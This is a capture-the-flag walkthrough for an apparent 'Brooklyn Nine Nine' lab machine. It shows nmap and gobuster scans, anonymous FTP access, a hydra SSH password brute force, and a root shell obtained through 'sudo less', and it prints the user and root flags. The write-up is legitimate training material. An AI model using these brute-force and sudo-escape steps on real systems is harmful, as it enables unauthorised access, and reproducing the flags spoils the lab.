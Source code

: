 # Task 1: Deploy and get hacking
![[1 85.png]]
## Question
> User flag
- First, let's scan the target using `nmap`.
```
$ nmap -sC -sV 10.10.255.141
Starting Nmap 7.92 ( https://nmap.org ) at 2023-12-06 21:01 IST
Nmap scan report for 10.10.255.141
Host is up (0.13s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.17.48.138
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 36.98 seconds
```
- As we can see there are three open ports:
	- Port 21: ftp
	- Port 22: ssh
	- Port 80: http
- Let's scan all the directories using `gobuster`.
```
$ gobuster dir -u http://10.10.255.141 -w /usr/share/wordlists/dirb/common.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.255.141
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd            (Status: 403) [Size: 278]
/index.html           (Status: 200) [Size: 718]
/server-status        (Status: 403) [Size: 278]
Progress: 4614 / 4615 (99.98%)
===============================================================
Finished
===============================================================
```
- There seems to be nothing of interest in the web directories.
- Let's login anonymously through FTP.
```
$ ftp anonymous@10.10.255.141
Connected to 10.10.255.141.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 
```
- Let's check out the contents of this directory.
```
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
226 Directory send OK.
```
- We can download the `note_to_jake.txt` file to our machine using the `get` command.
```
ftp> get note_to_jake.txt
local: note_to_jake.txt remote: note_to_jake.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for note_to_jake.txt (119 bytes).
100% |***********************************************************************************************************************************************************************************************|   119       22.82 KiB/s    00:00 ETA
226 Transfer complete.
119 bytes received in 00:00 (0.85 KiB/s)
```
- Let's check what is in the `note_to_jake.txt` file.
```
$ cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine
```
- The only service remaining is SSH. That means that the user `jake` has a weak SSH password.
- Using `hydra`, we can brute force the password.
```
$ hydra -l jake -P /usr/share/wordlists/rockyou.txt ssh://10.10.255.141 -t 4
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-12-06 21:56:40
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://10.10.255.141:22/
[STATUS] 44.00 tries/min, 44 tries in 00:01h, 14344355 to do in 5433:29h, 4 active
[22][ssh] host: 10.10.255.141   login: jake   password: 987654321
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-12-06 21:59:14
```
- Now we know that for the user `jake`, the password is `987654321`.
- Let's login through SSH using these credentials.
```
$ ssh jake@10.10.255.141            
The authenticity of host '10.10.255.141 (10.10.255.141)' can't be established.
ED25519 key fingerprint is SHA256:ceqkN71gGrXeq+J5/dquPWgcPWwTmP2mBdFS2ODPZZU.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.88.195' (ED25519) to the list of known hosts.
jake@10.10.255.141's password: 
Last login: Tue May 26 08:56:58 2020
jake@brookly_nine_nine:~$ 
```
- Let's go to the user `holt`.
```
jake@brookly_nine_nine:~$ cd ..
jake@brookly_nine_nine:/home$ ls
amy  holt  jake
jake@brookly_nine_nine:/home$ cd holt/
jake@brookly_nine_nine:/home/holt$ ls
nano.save  user.txt
```
- We can now get the user flag.
```
jake@brookly_nine_nine:/home/holt$ cat user.txt 
ee11cbb19052e40b07aac0ca060c23ee
```
## Answer
```
ee11cbb19052e40b07aac0ca060c23ee
```

## Question
> Root flag
- Let's check what file the `jake` user can execute.
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
- We can got to GTFOBins to find an exploit for the `less` binary.
![[2 84.png]]
- Copy and paste the `Sudo` exploit in the terminal.
```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# 
```
- You will have to press `ENTER` once again after entering the command.
```
# cd root       
# ls
root.txt
# cat root.txt
-- Creator : Fsociety2006 --
Congratulations in rooting Brooklyn Nine Nine
Here is the flag: 63a9f0ea7bb98050796b649e85481845

Enjoy!!
```
## Answer
```
63a9f0ea7bb98050796b649e85481845
```